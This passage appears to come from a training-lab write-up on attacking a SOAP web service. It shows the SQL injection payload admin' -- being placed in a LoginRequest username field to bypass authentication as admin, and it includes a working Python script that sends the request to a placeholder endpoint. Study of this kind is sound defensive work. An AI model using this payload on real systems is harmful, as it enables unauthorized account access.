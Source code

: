 ```xml
      </s:element>
```

Thus, we can specify `LoginRequest` within `<soap:Body>`, provide a SQLi that will allow us to login as `admin`, such as `admin' --` as the value for the `<username>` parameter, and provide any dummy password as value for the `<password>` parameter. 

We can then use the following Python script to trigger the SQLi vulnerability of the service:
```python
import requests

payload = "admin' --"
data = f'<?xml version="1.0" encoding="UTF-8"?> <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" xmlns:tns="http://tempuri.org/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <soap:Body> <LoginRequest xmlns="http://tempuri.org/"> <username>{payload}</username> <password>fff</password> </LoginRequest> </soap:Body> </soap:Envelope>'

print(requests.post("http://IP-ADDRESS:PORT/wsdl", data=data, headers={"SOAPAction":'"Login"'}).content)
```

We can then run it with:
```shell
python3 sqli.py
```